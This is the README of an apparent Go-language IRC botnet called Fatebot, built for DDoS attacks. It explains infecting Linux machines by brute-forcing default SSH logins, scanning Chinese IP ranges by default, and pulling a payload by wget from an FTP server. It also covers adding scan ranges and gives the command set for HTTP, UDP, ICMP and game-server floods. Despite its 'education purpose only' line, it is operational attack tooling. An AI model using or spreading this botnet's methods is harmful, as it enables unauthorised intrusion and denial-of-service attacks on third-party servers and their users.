

<h2>Attention Attention!!! My english is terrible. I'm so sorry about that :( </h2>

# Fatebot v0.4.1
This is my first IRC bot for launch DDoS attack. Scan target are anything that run linux, Open default SSH port and Use default username and password. This bot is write on Go language. For education purpose only. Please test it in your lab, And i create this for join university in the future not for attack anyone server with out any permission!!!

<strong>IRC commands are in the bottom of The page.</strong>

# Infect
The infect function of this botnet is scanning by default SSH port<strong>(Scan on range of CHN network by default. You can add more or change it, If you want.)</strong>
and login by Brute-force attack. This botnet will use "wget" to get payload from FTP server, So... Please prepair your FTP server first, It's very important for infect process.

<strong>I scan on my private netowrk in SSH range.(That's why it's scan and login at The same ip address.)</strong>

	my_ssh_ip = "192.168.57"
	ipGen = append(ipGen, genRange(134, 133), ".")
	
	//Just example of my private scan!!!!

# Add more IP range

(1) Go to "scan.go" file in pkg folder. Add your new ip range in to The group of const varible.

		var_name = "224." //224.0.0.0 - 224.255.255.255
		or
		var_name = "224.12" //224.12.255.255

(2) Go to "NextIP" function, And add The case for your ip range and return range of your ip.

		case var_name:
				return ManageIP_range(ipRange, GenRange(255, 0))
				
(2.1) In case of The ip range That you don't want to custom your second network prefix.
	
	Example:
	
		var_name = "224.12"
		var_name = "224.20"
		
	//The ip range that look like this it will return range of The id since 0 - 255 by default.
	//So... That's mean you don't need to add a case of your ip range.
	

(3) Then go to The "SSH_Conn" function, And add your ip constant to The slice name "NetList".

		NetList := []string{
			ip1, ip2, ip3, ip4, ip5, ip6, ip7, ip8,
			ip9, ip10, ip11, var_name,
		}

# DDoS
Raw socket programming is really hard for me. That's why all of <strong>The volumetric</strong> are a simple like udp and icmp flood.
Main DDoS function is on <strong>The Application layer</strong>.

# Build payload

# Update Lists

<strong>Fatebot v0.1</strong> = Fatebot open release.

<strong>Fatebot v0.2</strong> = Update get bot system information function and Add some tutorial in main and scan file.

<strong>Fatebot v0.2.1</strong> = Cut private scanning and OS signal by change it to self remove when running. And change some IRC commands that will type easier.

<strong>Fatebot v0.2.2</strong> = Cut scan failed report for fix server overheat and excess flood, 
  And Optimize by change ip range and default ping time, That will help to find SSH port faster.(Maybe, But fast than old one.)

<strong>Fatebot v0.3</strong> = Update new DDoS Vector. Set size of UDP packet to 700 as default when bot herder input The over size.

<strong>Fatebot v0.3.1</strong> = Fix vse and post flood. Fix IRC configuration that will make a little easy to config and change project layout.

<strong>Fatebot v0.4</strong> = Update IRC Backup Server configuration for Backup our bots When The Main IRC Server got shutdown by accident. Add and remove some feature of info function.

<strong>Fatebot v0.4.1</strong> = Change curl to wget, Add more Default IP range, Config some assets and tutorial. Re-Write a shit code and Fix post flood.

# IRC Commands
<ul>
  <li><strong>?get [url]</li></strong>
    <ul>
      <li>?get http://target.com</li>
      - Flood HTTP get request to target.
    </ul>
</ul>

<ul>
  <li><strong>?post [url]</li></strong>
    <ul>
      <li>?post http://target.com</li>
      - Flood HTTP post request to target.
    </ul>
</ul>

<ul>
  <li><strong>?udp [ip] [size]</li></strong>
    <ul>
      <li>?udp 192.168.1.16 500</li>
      - Flood UDP packets by random src and dst port to target. 
      
- Min and Max of Buffer is 1 - 700bytes.

    </ul>
</ul>

<ul>
  <li><strong>?icmp [ip]</li></strong>
    <ul>
      <li>?icmp 192.168.1.16</li>
      - Flood ICMP with large packets to target.
    </ul>
</ul>

<ul>
  <li><strong>?vse [ip]</li></strong>
    <ul>
      <li>?vse 192.168.1.16</li>
      - Flood TSource Engine Query request(UDP) on valve source engine dst port, By random src port. To the target server that used to host online games.
    </ul>
</ul>

<ul>
  <li><strong>?scan [ftp server]</li></strong>
    <ul>
      <li>?scan ftp://192.186.1.16/payload</li>
      - Scan CHN ip range(By default.) on SSH port and get payload with wget.
    </ul>
</ul>

<ul>
  <li><strong>?info</li></strong>
    <ul>
      - Get bot system information, For bot analysis.
    </ul>
</ul>

<ul>
  <li><strong>?kill</li></strong>
    <ul>
      - Bot self-close.
    </ul>
</ul>

<ul>
  <li><strong>?stopddos</li></strong>
    <ul>
      - Stop ddos attacking.
    </ul>
</ul>

<ul>
  <li><strong>?stopscan</li></strong>
    <ul>
      - Stop scanning.
    </ul>
</ul>
